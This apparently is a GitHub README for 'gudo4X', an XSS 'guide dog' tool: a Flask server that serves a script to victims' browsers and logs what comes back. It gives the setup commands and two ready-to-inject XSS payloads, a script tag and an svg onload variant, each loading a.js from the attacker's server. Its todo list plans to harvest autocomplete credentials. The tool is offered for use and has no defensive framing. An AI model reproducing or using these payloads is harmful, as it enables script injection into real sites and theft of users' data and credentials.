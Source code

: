 ## gudo4X - guide dog for xss

### dependencies
* install flask and magic

```bash
sudo apt update && sudo apt install -y python3-flask python3-magic
```

* (for https) put cert files in project directory (cert.pem, key.pem)

### running

```bash
sudo bash start.sh start &
```

* send the script in a xss:
```html
'"><script/src=//yourserver/a.js></script><"'
```

```html
'"><svg/onload=body.appendChild(createElement`script`).src="//yourserver/a.js"><"'
```

* see the log directory

### clean logs
```bash
sudo bash run.sh clean
```
### todo
- send basic info together
- reorganize log files
- good service management
- http and https 
- http authentication
- get autocomplete creds
